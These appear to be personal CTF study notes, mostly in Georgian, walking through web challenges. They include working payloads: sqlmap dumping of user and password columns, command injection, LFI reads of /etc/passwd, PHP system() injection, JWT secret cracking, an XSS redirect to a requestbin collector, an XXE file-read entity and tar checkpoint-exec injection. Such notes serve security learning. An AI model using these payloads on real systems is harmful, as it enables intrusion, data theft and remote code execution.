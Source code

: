 SQLMAP
Sqlmap -u “url” –dbs -> search for databases
Sqlmap -u “url” -D “Dbname” --tables -> search for tables in Dbname database
Sqlmap -u “url” -D “Dbname” --tables -> search for tables in Dbname database
Sqlmap -u “url” -D “Dbname” -T “Tname” --columns -> search for columns in Tname table of Dbname database
Sqlmap -u “url” -D “Dbname” -T “Tname” -C user,pass –dump -> show columns user, pass
Small-Data-Leak
პრობლემა: სისტემა მოწყვლადია SQL injection კუთხით
url-ს დავუმატოთ /user?id=  გამოგვიტანს Sqlalchemy, ჩამონათვლის სკრიპტებს თუ ვნახავთ შევამჩნევთ რომ პითონის სკრიპტებია მონაცემთა ბაზასთან  ინტერაქციისთვის
Sqlmap გამოყენებით ვნახოთ public მონაცემთა ბაზა, მასში იქნება ცხრილი, რომლის სახელიც იქნება გასაღების პირველი ნახევარი, ცხრილში როდესაც შევალთ ვნახავთ გასაღების მეორე ნახევარს.
Ping-Station
პრობლემა: სისტემა მოწყვლადია Command injection კუთხით. 
ვცადოთ 8.8.8.8;ls -l , შედეგი ფოლდერები და ფაილია, ერთ ერთი flag.
8.8.8.8;cat flag – ნაპოვნია გასაღები
File Inclusion
Local file inclusion -
Remote file inclusion – 
File-crawler
პრობლემა: სისტემა მოწყვლადია LFI მიმართ. 
ინსფექტ ელემენტით ვნახავთ რომ IMG სკრიპტი მიგვანიშნებს Local file inclusion-ზე, 
url -ში ჩავუმატოთ, local?image_name=///etc/passwd, გავხსნათ ტექსტურ ფაილად გადმოტვირთული ფაილი, ვნახავთ სხვადასხვა დირექტორიებს, შემდეგ url  ისევ შევცვალოთ, local?image_name=///tmp/flag, გადმოიტვირთება ჩვენი flag, ფაილად. 
Ultra-crawl
პრობლემა: მოწყვლადია local file inclusion-ს მიმართ
მოვსინჯოთ file:///etc/passwd,  მივიღეთ შიგთავსი, რითიც დადასტურდა რომ პრობლემის LFI პრობლემის წინაშე ნამდვილად ვდგავართ. მოვსინჯოთ, file:///home/ctf/app.py
 ინფუთ ველში, მოცემულია პითონის კოდი, სადაც ჩანს რომ ჰოსტი უნდა იყოს company.tld, burpsuite-გამოყენებით, რექუესთს შევცვლით და მივიღებთ გასაღებს.
Curl -I 34.107.71.117:30896 -ვიგებთ ინფორმაციას საიტის აგებულების შესახებ
curl -X POST -H "Host: company.tld" 34.107.71.117:30896 -curl-ის გამოყენებით შეცვალოთ რექუესთში ჰოსტის მნიშვნელობა. მივიღებთ გასაღებს 
Code execution
მავნე კოდის გაშვება ადგილობრივად, RCE -დისტანციურ სისტემაზე მავნე კოდის გაშვება
Substitute
Curl -i url  -> ვნახოთ რაზეა დაწერილი და ეს არის PHP, დეფაულტ ფაილის სახელია Index.php
მანიპულაცია მოვახდინოთ url-ზე, დავუმატოთ - /?vector=/Admin/e&replace=system('ls -l'), ერთი ზევითა მძიმით ls -l, 
ვნახავთ რომ გვაქვს დირექტორია here_we_dont_have_flag, დავუმატოთ Url-ს - /?vector=/Admin/e&replace=system(‘dir here_we_dont_have_flag’), ისევ დავუმატოთ /?vector=/Admin/e&replace=system(‘cat here_we_dont_have_flag/flag.txt’). მივიღეთ ჩვენი გასაღები.
Proxy
JSON web token გამოიეყენება ინფორმაციის სანდოდ მიმოცვლისათვის, ასევე, ლეგიტიმური ავტორიზაციისათვის.
შედგება Header(Algorythm&TokenType).Payload(Data).Signature(verification).
Under-construction
გავიაროთ რეგისტრაცია, ავტორიზაცია. Inspect-დან JS. სკრიპტში ვიპოვოთ ROLE_ADMIN. შემდეგ local storage შევცვალოთ user-> ROLE_ADMIN- ით. დავარეფრეშოთ საიტი, გამოჩნდება ადმინ პანელი.	
JWT Tool გამოყენებით გავიგებთ secret key. Token ავიღებთ inspect elementidan, 
python3 jwt_tool.py -t http://34.107.71.117:30461/api/app/admin -rc
"token" -C -d ~/rockyou.txt  - letmein
შემდეგ jwt.io , encoded- ჩავსვათ მოცემული ტოკენი, ID გავხადოთ 1, secret key – letmein, ამის შემდეგ ადმინ ღილაკზე დაჭერის დროს რექუესთი burpsuite გამოყენებით რიფითერში შევუცვალოთ x-accesstoken ახალი დაგენერირებული ადმინის ტოკენით და მივიღებთ გასაღებს.
Cross-Site Scripting XSS
Stored xss - მავლენ კოდს ინახავს სერვერზე
Reflected xss -მავნე კოდს უგზავნის მსხვერპლს
Manual-Review
პრობლემა: მოწყვლადია XSS მიმართ
რეგისტაცია, ავტორიზაცია, requestbin- გამოყენებით ვიღებთ გასაღებს. 
<script>window.location.href="requestbin endpoint";</script>
XML External Entity attack (xxe)
შეტევა რომელიც XML მონაცემების დამუშავებაში მდგომარეობს.
Syntax-check
file:///var/www/html/flag
file:///etc/passwd
<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [
	<!ELEMENT foo ANY>
	<!ENTITY xxe SYSTEM
"php://filter/convert.base64-encode/resource=/var/www/html/flag">
	]>
	<foo>
	 &xxe;
	</foo>
მიღებული გასაღები decoder გადავიყვანოთ base64
Tartarsausage
Inspect ვნახეთ html faili. url chavuweret.
cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec="ls -la"
cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec="cat enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/flag"
მივიღეთ ფლეგ
WEBGOAT
აპლიკაცია, რომელიც ორიენტირებულია იპოვოს მოწყვლადობა ჯავაზე დაყრდნობილ აპლიკაციებში.
მისი გამოყენების დროს ძალიან მოწყვლადი ხდები შენც, ამიტომ სასურველია ინტერნეტ კავშირი გაწყვითოთ
Request Forgery
Cross site request forgery (CSRF)- გამოიყენება რომ შემტევმა მომხმარებელს გააკეთებინოს ის რაც მომხმარებლებს არ განუძრახავთ
Server side request forgery (SSRF)- გამოიყენება სერვერიდან რექუესთების გასაგზავნად შემტევის მიერ შერჩეულ დომენზე.
Alien-inclusion
პრობლემა: მოწყვლადია SSRF მიმართ
curl 'http://35.246.134.224:30604/?start=' --data 'start=flag.php'
Pickle
პითონის მოდული რომელიც სერიალიზაციას და დესერიალიზაციას ახდენს მონაცემებზე.
Alfa-cookie
Curl -I ნახვის დროს ვხედავთ რომ ორი ჰეშია, auth_cookie & key, პირველი (bytes.fromhex(‘ ‘) hex value convert to ascii, then xor (_,key),

